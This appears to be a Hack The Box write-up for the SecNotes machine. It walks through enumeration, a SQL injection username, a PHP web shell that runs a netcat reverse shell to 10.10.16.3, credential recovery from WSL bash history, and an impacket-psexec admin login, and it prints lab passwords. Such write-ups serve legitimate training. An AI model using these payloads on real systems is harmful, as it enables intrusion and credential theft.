 ```yaml
---
title: SecNotes
date: 2024-02-27 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
SecNotes is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration and file reading, with using SQL Injection on the login page. The foothold is accomplished after some enumeration of a couple files in the web server, and then putting a shell in the smb drive. The privilege escalation is using a file on the machine to check the history of the windows subsystem for linux to find credentials, and using this to gain admin access. 

## Nmap Scan
nmap -T3 -Pn `10.10.10.97` -vvv

* 80/tcp   open  http  syn-ack
* 445/tcp  open  microsoft-ds  syn-ack
* 8808/tcp open  ssports-bcast syn-ack

OS version: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)

## Basic Enumeration
Nothing coming up with smbclient, likely need an actual user rather than guest login. We can check out the web page, and run some web enumerations like nikto and gobuster while we check out whats on the web at both port 80 and 8808.

`Gobuster` gives us a fair number of web pages to check out: 
```
/auth.php             (Status: 500) [Size: 1208]
/contact.php       (Status: 302) [Size: 0] [--> login.php]
/Contact.php       (Status: 302) [Size: 0] [--> login.php]
/DB.php               (Status: 500) [Size: 1208]
/db.php               (Status: 500) [Size: 1208]
/home.php          (Status: 302) [Size: 0] [--> login.php]
/Home.php        (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1223]
/Login.php            (Status: 200) [Size: 1223]
/logout.php        (Status: 302) [Size: 0] [--> login.php]
/register.php         (Status: 200) [Size: 1569]
```
PHP is used in this environment on the web service: `PHP/7.2.7`.

* At the login portal, we see we have the abilitiy to register. Here, we can test and see if SQL Injection is available to use by registering as user `'OR 1 OR'`.
* Using this user and signing in, we have unexpected access to other user notes. 
* Checking out the other notes, we can see a note that gives us a password: `tyler / 92g!mA8BGjOirkL%OG*&`

## Foothold
Using the credentials we found, we can now enumerate the smb shares, and can see the share `new-site`:
```
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

* Using the level of access we have, we can try to put files onto the machine for execution. Putting something like `nc64.exe` is not enough, as we can't access that on the web. Since there is php on the web site, we can put a second file that will allow us to get `nc64.exe` to run. 

```php
<?php
system('nc64.exe -e cmd.exe 10.10.16.3 5555')
?>
```
* After we put both files into this share, we go out to the site on port 8808, and the file `rev1.php` should be accessible. With a netcat listener on our end, we can get a reverse shell after going to the page: http://10.10.10.97:8808/rev1.php
* We have to do it in quick succession, as we have found that files get cleared from the host every few minutes. We now have access to `user.txt`:


## Local Enumeration
Trying to bring over files like `winpeas` didn't work and got blocked by the system AV. After doing some more manual checks on the host, we find that this machine has the `windows subsystem for linux` on it. 

* We find this and the bash executable inside a `winsxs` file path. 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-subsystem-for-linux-wsl

From here, we can run the `bash.exe` file and drop into this subsystem. 

## Privilege Escalation
We are now in the linux local shell on the host. The interactive shell is a bit unstable, and we should escape using a tty escape. We can run the following to get a cleaner tty: `python -c 'import pty; pty.spawn("/bin/bash")'`

* While we are in this shell, we can poke around a bit to see what is here. A quick history check gives us the administator credentials: `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$` (the `%` symbol signifies a space)

* With this, we should be able to run `psexec` and easily login as the administrator: `impacket-psexec 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`
* We can now read `root.txt`: 